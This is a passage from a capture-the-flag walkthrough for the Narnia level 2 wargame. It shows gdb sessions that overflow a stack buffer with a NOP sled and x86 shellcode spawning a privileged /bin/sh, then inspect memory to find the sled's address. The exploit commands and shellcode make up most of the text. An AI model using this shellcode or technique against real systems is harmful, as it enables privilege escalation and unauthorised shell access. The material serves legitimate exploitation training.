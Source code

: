 ``` text
   0x080491d5 <+63>:	push   $0x804a01c
   0x080491da <+68>:	call   0x8049050 <printf@plt>
   0x080491df <+73>:	add    $0x8,%esp
   0x080491e2 <+76>:	mov    $0x0,%eax
   0x080491e7 <+81>:	leave  
   0x080491e8 <+82>:	ret    
End of assembler dump.
(gdb)
```

Set breakpoint after at `main+68`.


``` text
(gdb) break *0x080491da
Breakpoint 1 at 0x80491da
```

Let's run our command.

``` text
(gdb) run $( perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\xff\xff\xff\xff";' )
Starting program: /narnia/narnia2 $( perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\xff\xff\xff\xff";' )
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491da in main ()
(gdb) x/100x $esp+500
0xffffd694:	0x0000000a	0x00000007	0xf7fc6000	0x00000008
0xffffd6a4:	0x00000000	0x00000009	0x08049080	0x0000000b
0xffffd6b4:	0x000036b2	0x0000000c	0x000036b2	0x0000000d
0xffffd6c4:	0x000036b2	0x0000000e	0x000036b2	0x00000017
0xffffd6d4:	0x00000001	0x00000019	0xffffd70b	0x0000001a
0xffffd6e4:	0x00000002	0x0000001f	0xffffdfe8	0x0000000f
0xffffd6f4:	0xffffd71b	0x00000000	0x00000000	0x00000000
0xffffd704:	0x00000000	0xac000000	0x4f865e19	0x2165932d
0xffffd714:	0x8c1c67a6	0x69719f0d	0x00363836	0x00000000
0xffffd724:	0x2f000000	0x6e72616e	0x6e2f6169	0x696e7261
0xffffd734:	0x90003261	0x90909090	0x90909090	0x90909090
0xffffd744:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd754:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd764:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd774:	0x90909090	0x90909090	0x90909090	0x58316a90
0xffffd784:	0xc38980cd	0x8958466a	0x6a80cdd9	0x2f2f6868
0xffffd794:	0x2f68732f	0x896e6962	0x010168e3	0x34810101
0xffffd7a4:	0x01697224	0x51c93101	0x0159046a	0xe18951e1
0xffffd7b4:	0x0b6ad231	0xff80cd58	0x00ffffff	0x4c454853
0xffffd7c4:	0x622f3d4c	0x622f6e69	0x00687361	0x3d445750
0xffffd7d4:	0x72616e2f	0x0061696e	0x4e474f4c	0x3d454d41
0xffffd7e4:	0x6e72616e	0x00326169	0x752f3d5f	0x622f7273
0xffffd7f4:	0x672f6e69	0x4c006264	0x53454e49	0x0037343d
0xffffd804:	0x454d4f48	0x6f682f3d	0x6e2f656d	0x696e7261
0xffffd814:	0x4c003261	0x3d474e41	0x54552e43	0x00382d46
(gdb) 
```
